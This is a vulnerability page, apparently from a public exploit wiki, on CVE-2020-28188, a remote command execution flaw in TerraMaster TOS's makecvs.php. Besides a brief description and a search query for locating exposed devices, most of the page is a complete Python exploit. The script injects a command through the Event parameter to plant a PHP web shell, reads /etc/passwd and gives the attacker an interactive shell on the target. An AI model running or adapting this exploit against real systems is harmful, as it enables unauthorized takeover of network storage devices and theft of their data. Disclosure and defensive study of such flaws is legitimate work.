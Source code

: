 # TerraMaster TOS makecvs.php Remote Command Execution Vulnerability CVE-2020-28188

## Vulnerability Description

In TerraMaster TOS 4.2.06, any file writes exist in makecvs.php, and attackers can upload malicious files to control the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">TerraMaster TOS < 4.2.06</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"TerraMaster" && header="TOS"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313162331471.png)



The vulnerability is the Event parameter in `/include/makecvs.php`



Upload and execute commands using EXP file



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313162331359.png)



## Vulnerability POC

```python
# Exploit Title: TerraMaster TOS 4.2.06 - RCE (Unauthenticated)
# Date: 12/12/2020
# Exploit Author: IHTeam
# Full Write-up: https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
# Vendor Homepage: https://www.terra-master.com/
# Version: <= 4.2.06
# Tested on: 4.1.30, 4.2.06

#!/usr/bin/env python3
import argparse
import requests
import time
import sys
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser(description="TerraMaster TOS <= 4.2.06 Unauth RCE")
parser.add_argument('--url', action='store', dest='url', required=True, help="Full URL and port e.g.: https://192.168.1.111:8081/")
args = parser.parse_args()

url = args.url
headers = {'User-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36'}
epoch_time = int(time.time())
shell_filename = "debug"+str(epoch_time)+".php"

def check_endpoint(url, headers):
	response = requests.get(url+'/version', headers=headers, verify=False)
	if response.status_code == 200:
		print("[+] TerraMaster TOS version: ", str(response.content))
	else:
		print("\n[-] TerraMaster TOS response code: ", response.status_code)
		sys.exit()
		
def upload_shell(url, headers, shell_filename):
	payload = "http|echo \"<?php echo(passthru(\\$_GET['cmd']));?>\" >> /usr/www/"+shell_filename+" && chmod +x /usr/www/"+shell_filename+"||"
	payload = urllib.parse.quote(payload, safe='')
	print("[/] Uploading shell...")
	response = requests.get(url+'/include/makecvs.php?Event='+payload, headers=headers, verify=False)
	time.sleep(1)
	response = requests.get(url+'/'+shell_filename+'?cmd=cat /etc/passwd', headers=headers, verify=False)
	if ('root:' in str(response.content, 'utf-8')):
		print("[+] Upload succeeded")
	else:
		print("\n[-] Error uploading shell: ", response.content)
		sys.exit()

def interactive_shell(url, headers, shell_filename, cmd):
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(cmd, safe=''), headers=headers, verify=False)
	print(str(response.text)+"\n")


def delete_shell(url, headers, shell_filename):
	delcmd = "rm /usr/www/"+shell_filename
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(delcmd, safe=''), headers=headers, verify=False)
	print("\n[+] Shell deleted")

upload_shell(url, headers, shell_filename)
try:
	while True:
		cmd = input("# ")
		interactive_shell(url, headers, shell_filename, cmd)
except:
	delete_shell(url, headers, shell_filename)
```